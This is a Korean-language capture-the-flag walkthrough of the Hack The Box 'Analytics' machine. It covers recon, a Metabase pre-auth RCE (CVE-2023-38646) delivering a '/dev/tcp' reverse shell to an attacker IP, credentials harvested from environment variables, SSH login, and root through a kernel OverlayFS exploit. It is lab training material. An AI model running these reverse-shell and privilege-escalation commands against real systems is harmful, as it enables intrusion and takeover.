



> write-up 컨텐츠의 경우 제가 풀었던 의식의 흐름을 기억해놓고자 작성합니다. 두서 없이 정리된 만큼, 문제 풀이는 다른 분꺼 참고를 추천합니다.
{: .prompt-tip }

## [0x00] recon
---
20, 80 port 활성화가 확인 되며, `http://analytical.htb/`로 redirect 된다. /etc/hosts 파일에 해당 경로를 추가해주자.
``` bash
┌──(root㉿kali)-[/home/user]
└─# nmap -sCV 10.10.11.233
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://analytical.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

┌──(root㉿kali)-[/home/user]
└─# curlcurl -i 10.10.11.233

HTTP/1.1 302 Moved Temporarily
Server: nginx/1.18.0 (Ubuntu)
Date: Fri, 29 Mar 2024 04:49:11 GMT
Content-Type: text/html
Content-Length: 154
Connection: keep-alive
Location: http://analytical.htb/

<html>
<head><title>302 Found</title></head>
<body>
<center><h1>302 Found</h1></center>
<hr><center>nginx/1.18.0 (Ubuntu)</center>
</body>
</html>
```

gobuster로 수집한 결과는 아래와 같이 몇 없다. 직접 접속해서 기능을 봐야할 듯 하다.
``` bash
┌──(root㉿kali)-[/home/user]
└─# gobuster dir -u http://analytical.htb/ -w dsstorewordlist.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://analytical.htb/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                dsstorewordlist.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 178] [--> http://analytical.htb/images/]
/js                   (Status: 301) [Size: 178] [--> http://analytical.htb/js/]
/css                  (Status: 301) [Size: 178] [--> http://analytical.htb/css/]
Progress: 1828 / 1829 (99.95%)
===============================================================
Finished
===============================================================
```

접속 시 아래와 같은 형태의 사이트가 나오며, 기능 중 login 페이지 접속 시 data.analytical.htb로 이동하게 된다. 마찬가지로 /etc/hosts 파일에 추가가 필요하다.


로그인 페이지로 접근 시 아래와 같이 나온다. 자...이제 어떻게 해야할지 고민해보자


로그인 페이지의 이것저것을 보던 중 webpack 관련 내용이 보이는 것을 확인하였다. 찾은 경로 중 /api가 있어 접근해보니, api를 테스트해볼 수 있는 페이지 같은 모습이 나온다.



이것 저것 다양한 시도를 해보았으나, 결국 Guide Mode를 통해 진행하게 되었다. 그런데...세상에..
> What is the 2023 CVE ID assigned to the pre-authentication, remote code execution vulnerability in this version of Metabase?
이 문제도 cve를 찾아서 풀어야 하는 문제였네...? metabase 란 서비스가 문제용으로만 있는줄 알았는데 그게 아니였나보다...🤢

## [0x01] gainning access
---
관련된 cve를 검색해보니 cve-2023-38646 Pre-Auth RCE 취약점이 나온다. [PoC Code](https://github.com/m3m0o/metabase-pre-auth-rce-poc)를 다운로드하여 한번 실행해보자. 사용 방법은 `python3 main.py -u http://[targeturl] -t [setup-token] -c "[command]"`와 같은 령태이다. setup-token의 경우 `/api/session/properties`를 확인하면 된다.

``` bash
┌──(root㉿kali)-[/home/user/htb/metabase-pre-auth-rce-poc]
└─# python main.py -u 'http://data.analytical.htb' -t 249fa03d-fd94-4d5b-b94f-b4ebf3df681f -c "whoami"
[!] BE SURE TO BE LISTENING ON THE PORT YOU DEFINED IF YOU ARE ISSUING AN COMMAND TO GET REVERSE SHELL [!]

[+] Initialized script
[+] Encoding command
[+] Making request
[+] Payload sent
```

처음 whoami를 입력해보니 단순히 전송하기만 하는 것으로 보인다. 즉, 반응이 되돌아오지는 않는 것이다. 그렇다면 바로 shell 연결을 시도해보자. 성공적으로 metabase 계정으로 연결되었다.
``` bash
# terminal 1
┌──(root㉿kali)-[/home/user/htb/metabase-pre-auth-rce-poc]
└─# python main.py -u 'http://data.analytical.htb' -t 249fa03d-fd94-4d5b-b94f-b4ebf3df681f -c "sh -i >& /dev/tcp/10.10.14.36/443 0>&1;"
[!] BE SURE TO BE LISTENING ON THE PORT YOU DEFINED IF YOU ARE ISSUING AN COMMAND TO GET REVERSE SHELL [!]

[+] Initialized script
[+] Encoding command
[+] Making request
[+] Payload sent

# terminal 2
┌──(root㉿kali)-[/home/user]
└─# nc -lvp 443
listening on [any] 443 ...
connect to [10.10.14.36] from analytical.htb [10.10.11.233] 40848
sh: can't access tty; job control turned off
/ $ whoami
metabase
```

## [0x02] privilege escalation
---
우선 process 목록을 보니 컨테이너로 되어 있는 것 같다. 
```
/ $ ps -ef
PID   USER     TIME  COMMAND
    1 metabase  2:13 java -XX:+IgnoreUnrecognizedVMOptions -Dfile.encoding=UTF-8 -Dlogfile.path=target/log -XX:+CrashOnOutOfMemoryError -server -jar /app/metabase.jar
  114 metabase  0:00 bash -c {echo,c2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMzYvNDQzIDA+JjE7}|{base64,-d}|{bash,-i}
  118 metabase  0:00 bash -i
  119 metabase  0:00 sh -i
  128 metabase  0:00 ps -ef
```

export를 통해 어떤 환경변수가 있는지 출력해보니 주요한 내용이 존재한다.
```
$ export
export FC_LANG='en-US'
export HOME='/home/metabase'
export HOSTNAME='7b3da3c2d349'
export JAVA_HOME='/opt/java/openjdk'
export JAVA_VERSION='jdk-11.0.19+7'
export LANG='en_US.UTF-8'
export LANGUAGE='en_US:en'
export LC_ALL='en_US.UTF-8'
export LC_CTYPE='en_US.UTF-8'
export LD_LIBRARY_PATH='/opt/java/openjdk/lib/server:/opt/java/openjdk/lib:/opt/java/openjdk/../lib'
export LOGNAME='metabase'
export MB_DB_CONNECTION_URI=''
export MB_DB_FILE='//metabase.db/metabase.db'
export MB_DB_PASS=''
export MB_DB_USER=''
export MB_EMAIL_SMTP_PASSWORD=''
export MB_EMAIL_SMTP_USERNAME=''
export MB_JETTY_HOST='0.0.0.0'
export MB_LDAP_BIND_DN=''
export MB_LDAP_PASSWORD=''
export META_PASS='An4lytics_ds20223#'
export META_USER='metalytics'
export OLDPWD='/'
export PATH='/opt/java/openjdk/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin'
export PWD='/metabase.db'
export SHELL='/bin/sh
```

획득한 계정 정보를 갖고 ssh로 로그인 시 성공적으로 로그인 된다.
``` bash
┌──(root㉿kali)-[/home/user/htb/metabase-pre-auth-rce-poc]
└─# ssh metalytics@10.10.11.233
metalytics@10.10.11.233's password:
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 6.2.0-25-generic x86_64)

metalytics@analytics:~$ ls
user.txt
metalytics@analytics:~$ cat user.txt
```

이후 linpeas.sh로 정보를 수집해보았더니 흥미로운 문구가 보인다. sudo 부분에 버전이 취약한지 확인해보라는 것이다.
``` bash
                      ╔════════════════════════════════════╗
══════════════════════╣ Files with Interesting Permissions ╠══════════════════════
                      ╚════════════════════════════════════╝
╔══════════╣ SUID - Check easy privesc, exploits and write perms
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-and-suid
-rwsr-xr-x 1 root root 40K Nov 24  2022 /usr/bin/newgrp  --->  HP-UX_10.20
-rwsr-xr-x 1 root root 71K Nov 24  2022 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 55K Feb 21  2022 /usr/bin/su
-rwsr-xr-x 1 root root 35K Feb 21  2022 /usr/bin/umount  --->  BSD/Linux(08-1996)
-rwsr-xr-x 1 root root 44K Nov 24  2022 /usr/bin/chsh
-rwsr-xr-x 1 root root 35K Mar 23  2022 /usr/bin/fusermount3
-rwsr-xr-x 1 root root 227K Apr  3  2023 /usr/bin/sudo  --->  check_if_the_sudo_version_is_vulnerable
-rwsr-xr-x 1 root root 59K Nov 24  2022 /usr/bin/passwd  --->  Apple_Mac_OSX(03-2006)/Solaris_8/9(12-2004)/SPARC_8/9/Sun_Solaris_2.3_to_2.5.1(02-1997)
-rwsr-xr-x 1 root root 47K Feb 21  2022 /usr/bin/mount  --->  Apple_Mac_OSX(Lion)_Kernel_xnu-1699.32.7_except_xnu-1699.24.8
-rwsr-xr-x 1 root root 72K Nov 24  2022 /usr/bin/chfn  --->  SuSE_9.3/10
-rwsr-xr-- 1 root messagebus 35K Oct 25  2022 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
```

sudo의 버전을 확인해보니 1.9.9라고 나온다. 관련 키워드로 검색해보니 [CVE-2023-22809](https://github.com/n3m1sys/CVE-2023-22809-sudoedit-privesc/tree/main) 자료가 나온다
``` bash
metalytics@analytics:~$ sudo --version
Sudo version 1.9.9
Sudoers policy plugin version 1.9.9
Sudoers file grammar version 48
Sudoers I/O plugin version 1.9.9
Sudoers audit plugin version 1.9.9
```

실제 공격을 진행해보았으나, metalytics 계정으로는 진행할 수 없다고 나온다....🤢
``` bash
metalytics@analytics:~$ ./cve-2023-22809.sh
[sudo] password for metalytics:
Sorry, user metalytics may not run sudo on localhost.
> It doesn't seem that this user can run sudoedit as root
Do you want to proceed anyway? (y/N): y
> Opening sudoers file, please add the following line to the file in order to do the privesc:
metalytics ALL=(ALL:ALL) ALL
Press any key to continue...[sudo] password for metalytics:
metalytics is not in the sudoers file.  This incident will be reported.
```

결국 공략을 보았고, 커널 버전과 관련된 취약점을 찾아야한다는 것을 알았다. `6.2.0-25-generic #25~22.04.2-Ubuntu cve`로 검색하면 [cve-2023-2640](https://github.com/g1vi/CVE-2023-2640-CVE-2023-32629/tree/main) 취약점 관련 내용이 나온다.
``` bash
metalytics@analytics:~$ uname -a
Linux analytics 6.2.0-25-generic #25~22.04.2-Ubuntu SMP PREEMPT_DYNAMIC Wed Jun 28 09:55:23 UTC 2 x86_64 x86_64 x86_64 GNU/Linux
```

바로 root를 획득할 수 있다.
``` bash
metalytics@analytics:~$ chmod +x cve-2023-2640.sh
metalytics@analytics:~$ ./cve-2023-2640.sh
[+] You should be root now
[+] Type 'exit' to finish and leave the house cleaned
root@analytics:~# whoami
root
root@analytics:~# cat /root/root.txt
```

## [0x03] conclusion
---
이번문제는 cve와 관련된 내용을 찾는 것이 중점이였다. cve로 시스템을 장악하는 경우는 많이 접해보지 않아 낯선 접근 방법이였다. 커널 취약점으로 인한 root 획득이라니...다양한 문제를 풀어봐야할듯 하다.
